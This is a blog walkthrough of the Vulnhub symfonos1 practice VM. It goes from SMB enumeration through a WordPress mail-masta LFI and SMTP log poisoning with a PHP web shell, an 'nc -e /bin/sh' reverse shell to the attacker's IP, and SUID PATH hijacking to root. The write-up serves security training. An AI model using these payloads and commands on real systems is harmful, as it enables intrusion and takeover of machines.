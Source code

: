 ```yaml
---
layout: post
title: "symfonos1 - Vulnhub Boot2Root"
date: 2020-06-27
excerpt: "Walkthrough for the symfonos1 VM"
tags: [vulnhub, symfonos, symfonos1, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the first box, the easiest in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I ran **netdiscover** to find the IP address of the machine.

![symfonos1 netdiscover](/assets/img/symfonos1-1.png)

Now that we have located the IP address of our target, we can proceed with performing an **nmap** scan to search for open ports, protocols and their versions.

![symfonos1 nmap](/assets/img/symfonos1-2.png)

Based on the scan, we can see that ssh, smtp, netbios and smb are running, along with an Apache webserver on port 80.

Visiting the webpage brings us to a page with nothing special on it, just a background image.

![symfonos1 home page](/assets/img/symfonos1-3.png)

At this point, I elected to run **dirb** to enumerate the website. It came back with minimal results using the big.txt wordlist, as it just had a list of Apache's manual directories.

![symfonos1 dirb](/assets/img/symfonos1-4.png)

I next turned my attention to SMB that was running over port 445.

I was able to connect as an anonymous user using **rpcclient** as shown below.

![symfonos1 rpcclient](/assets/img/symfonos1-5.png)

Running **enumdomusers** results in a user, helios, being uncovered. Running **queryuser 0x3e8** displays info about that user. **getdompwinfo** displays that the minimum characters for the password are set to 5.

![symfonos1 rpcclient info](/assets/img/symfonos1-6.png)

Next, I ran the smb-enum-shares script with nmap to enumerate smb shares

![symfonos1 rpcclient nmap smb-enum-shares](/assets/img/symfonos1-7.png)

This showed several different shares that could be connected to anonymously **\\192.168.68.137\anonymous, \\192.168.68.137\IPC$, and \\192.168.68.137\print$**. There was also a **\\192.168.68.137\helios** share present that anonymous/guest access was disabled on.

At this point, I tried to connect to the shares anonymous could access to see if anything could be pilfered. This was done with **smbclient**. The anonymous share was the first to be checked.

Upon connecting, there was an attention.txt file present.

![symfonos1 smbclient anonymous share](/assets/img/symfonos1-8.png)

I downloaded the file, dropped the smb connection, and read the file locally with **cat**

![symfonos1 smbclient attention.txt](/assets/img/symfonos1-9.png)

This file lists 3 potential passwords, and we already uncovered the **helios** user earlier while running rpcclient. Let's try to connect to his share via SMB with these passwords.

![symfonos1 smbclient helios share](/assets/img/symfonos1-10.png)

Success, we were able to connect with the password of **qwerty** as helios to his directory. As shown above, there were two files in that directory we saved with **get**.

![symfonos1 research.txt todo.txt](/assets/img/symfonos1-11.png)

The **research.txt** file had info about Helios, but nothing relevant to enumerating further. The second file mentions a /h3l105 folder. Let's see what happens when we append this to the end of the website url.

![symfonos1 research.txt h3l105](/assets/img/symfonos1-12.png)

It appears that this is a wordpress site, but it is not loading completely because it's trying to access symfonos.local, lets add that to our attacking machine's host file and reload the page. This is done by running `nano /etc/hosts` and adding it as shown in the screenshot below:

![symfonos1 etc/hosts](/assets/img/symfonos1-13.png)

Once saved, reload the page again. You should now see the page properly and a login page. Next, we will use wp-scan to enumerate plugins for possible vulnerabilities.

![symfonos1 wp-scan enumerate plugins](/assets/img/symfonos1-14.png)

## Exploitation

You will come across mail-masta as one of the plugins in use. A quick Google search leads to an exploit for this on [Exploit-DB](https://www.exploit-db.com/exploits/40290).

![symfonos1 LFI exploit](/assets/img/symfonos1-15.png)

Modify the sample code and use the following url to pull a list of users on the system `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![symfonos1 LFI etc/passwd](/assets/img/symfonos1-16.png)

Now that we are sure that LFI works, we can attempt SMTP poisoning to utilize RCE. This is accomplished with running `telnet symfonos.local 25`

![symfonos1 smtp](/assets/img/symfonos1-17.png)

We will now send an email to Helios with a 1 line of PHP code that allows for RCE: `<?php system($_GET['c']); ?>`

![symfonos1 smtp send](/assets/img/symfonos1-18.png)

Navigating to **http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=pwd** will print the working directory after the output of helios' mail.

![symfonos1 smtp RCE](/assets/img/symfonos1-19.png)

This means we should be able to create a reverse shell, lets create a netcat listener on our attacking machine with `nc -nvlp 5555` and then navigate to *8symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/sh 192.168.68.135 5555** in the web browser and press enter, this should connect to your netcat listener.

![symfonos1 website RCE](/assets/img/symfonos1-20.png)
![symfonos1 netcat connection](/assets/img/symfonos1-21.png)

Next, we will create a TTY shell with `python -c 'import pty;pty.spawn("/bin/bash")'`.

![symfonos1 python tty shell](/assets/img/symfonos1-22.png)

Next, we will use the following `find / -perm -u=s -type f 2>/dev/null` to find all the programs that run with SUID.

![symfonos1 find](/assets/img/symfonos1-23.png)

One that stands out is **/opt/statuscheck** which has a **curl** command embedded in it when reviewing the binary with `strings /opt/statuscheck`

![symfonos1 statuscheck](/assets/img/symfonos1-24.png)

We will take advantage of this by copying the bash shell into a curl binary in the temp directory and temporarily changing the $PATH variable to run this command instead of curl as shown below.

![symfonos1 root shell](/assets/img/symfonos1-25.png)

At this point you have root! Navigate to /root and run ls to list files, you should see **proof.txt**. Run `cat proof.txt` to view the contents of this file to finish the box.

![symfonos1 root proof.txt](/assets/img/symfonos1-26.png)










